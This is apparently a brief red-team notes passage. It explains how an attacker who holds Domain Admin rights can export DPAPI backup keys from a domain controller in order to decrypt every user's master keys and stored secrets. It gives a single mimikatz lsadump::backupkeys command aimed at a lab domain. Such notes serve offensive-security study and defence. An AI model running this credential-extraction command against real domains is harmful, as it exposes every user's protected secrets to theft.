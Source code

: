 ![](../../.gitbook/assets/screenshot-from-2019-04-13-18-02-42.png)

## Extracting DPAPI Backup Keys with Domain Admin

It's possible to extract DPAPI backup keys from the Domain Controller that will enable us to decrypt any user's master key which in turn will allow us to decrypt users' secrets.

While running as a `Domain Admin`, let's dump the DPAPI backup keys:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
lsadump::backupkeys /system:dc01.offense.local /export
```
{% endcode-tabs-item %}
{% endcode-tabs %}

